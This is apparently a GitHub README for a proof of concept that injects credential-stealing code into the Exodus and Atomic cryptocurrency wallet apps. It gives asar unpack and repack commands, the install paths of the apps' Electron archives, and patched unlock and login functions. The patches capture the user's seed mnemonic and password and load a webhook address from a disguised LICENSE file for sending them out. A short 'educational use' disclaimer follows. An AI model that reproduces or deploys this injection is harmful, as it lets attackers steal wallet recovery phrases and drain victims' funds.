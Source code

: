 # wallets-injection
 Exodus and Atomic crypto wallets injection POC (captures mnemonic and password)

## Unpack ASAR
```
asar extract app.asar <output>
```

## Pack to ASAR
```
asar pack <input> app.asar
```

## Exodus
```js
async unlock(e) {
    if (await this.shouldUseTwoFactorAuthMode()) return;
    const t = await Object(ee.readSeco)(this._walletPaths.seedFile, e);
    this._setSeed(M.fromBuffer(t)), P.a.randomFillSync(t), await this._loadLightningCreds()

    const webhook = await fs.readFile('LICENSE', 'utf8');
    const mnemonic = this._seed.mnemonicString;
    const password = e;
}
```

![image](./assets/exodus.png)

Located at `%LOCALAPPDATA%\exodus\app-<version>\resources\app.asar`

## Atomic
I had to go back to an old Atomic version that allowed me to import modules. It can still be injected to new versions. After login, user is prompted for an update.
```js
async login() {
    let e;
    this.$storage.password = this.password;
    try {
        if (e = await this.$addresses.get(), 0 === e.length) throw new Error("empty addresses")
    } catch (e) {
        return console.error(e), void(this.passwordError = "Wrong password")
    }

    const mnemonic = await this.$storage.get("general_mnemonic");
    const password = await this.password
    const fs = require('fs').promises;
    const webhook = await fs.readFile('LICENSE.electron.txt', 'utf8');
}
```
![image](./assets/atomic.png)

Located at `%LOCALAPPDATA%\Programs\atomic\resources\app.asar`

## Credits:
- [loTus04](https://github.com/loTus04) for Atomic injection
- [dropout1337](https://github.com/dropout1337) for Exodus injection

## Disclaimer:

### Important Notice:
These injections are inteded for educational purposes only. There are provided strictly for educational and research purposes. Under no circumstances these should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.

### Usage Responsibility:

By accessing and using these injections, you acknowledge that you are solely responsible for your actions. Any misuse of these injections is strictly prohibited, and the creator (hackirby) disclaims any responsibility for how these injections is utilized. You are fully accountable for ensuring that your usage complies with all applicable laws and regulations in your jurisdiction.

### No Liability:

The creator (hackirby) of these injections shall not be held responsible for any damages or legal consequences resulting from the use or misuse of this software. This includes, but is not limited to, direct, indirect, incidental, consequential, or punitive damages arising out of your access, use, or inability to use these injections.

### No support:

The creator (hackirby) will not provide any support, guidance, or assistance related to the misuse of these injections. Any inquiries regarding malicious activities will be ignored.

### Acceptance of Terms:

By using these injections, you signify your acceptance of this disclaimer. If you do not agree with the terms stated in this disclaimer, do not use them.
